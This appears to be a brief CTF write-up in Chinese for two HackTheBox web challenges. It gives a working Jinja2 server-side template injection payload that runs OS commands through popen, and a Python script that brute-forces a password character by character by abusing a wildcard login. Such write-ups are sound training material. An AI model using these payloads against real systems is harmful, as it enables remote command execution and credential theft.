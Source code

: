 ```yaml
---
title: HACKTHEBOX Challeges Web
tags: ctf
---
```


## Templated

flask/jinja2 SSTI模板注入

<http://IP:PORT/{{config>}}

<http://IP:PORT/{{request.application>.__globals__.__builtins__.__import__('os').popen('id').read()}}

```sh
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

然后就是查看目录，查看flag.txt内容

-----

## Phonebook

用户名密码使用*登录跳转

网页看到用户名reese，暴力破解密码

```python
import requests

list = []
for i in range(33, 127):
    list.append(chr(i))
list.remove('*')

url = 'http://IP:PORT/login'
myobj = {'username': 'reese', 'password': 'brucepass'}
result = ''
flag = 1
while flag == 1:
    flag = 0
    for l in list:
        myobj['password'] = result + l + '*'
        r = requests.post(url, data=myobj)
        if ('No search results' in r.text):
            result += l
            flag = 1
            print(result)
            break
print('Done')
```
